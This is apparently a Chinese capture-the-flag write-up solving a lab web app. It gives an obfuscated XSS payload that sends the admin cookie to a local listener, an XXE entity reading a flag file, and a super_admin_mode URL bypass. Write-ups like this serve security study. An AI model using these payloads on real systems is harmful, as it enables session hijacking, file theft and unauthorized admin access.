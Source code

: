 # xxxxx

##解题过程

1、注册账号进入用户界面
![](主界面.png)
2、进入工单记录、提交`![dsa](x"onerror=eval(atob(\'Yj1kb2N1bWVudC5jb29raWU7YT0iPGltZyBzcmM9aHR0cDovL2xvY2FsaG9zdDo4MjM0LyIrYnRvYShiKSsiPiI7ZG9jdW1lbnQud3JpdGUoYSk7\'))%")`，此payload是弹到本地8234端口
3、在本地监听8234端口，得到管理员cookie
![](cookie.png)
4、利用得到的管理员cookie登陆管理员界面，进入短信设置
5、打开请求手机验证，修改模板为
![](短信.png)
"""
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///tmp/flag" >
]>
<root>
    <tel>{tel}</tel>
    <text>【VYG乐购】您的验证码为： {code} &xxe;</text>
</root>
"""
6、以管理员身份去实名认证
![](认证.png)
点击发短信
获得flag
![](flag.png)


##解法2：
访问`http://127.0.0.1:8233/user/2?super_admin_mode=1`
可得管理员flag
![](flag2.png)
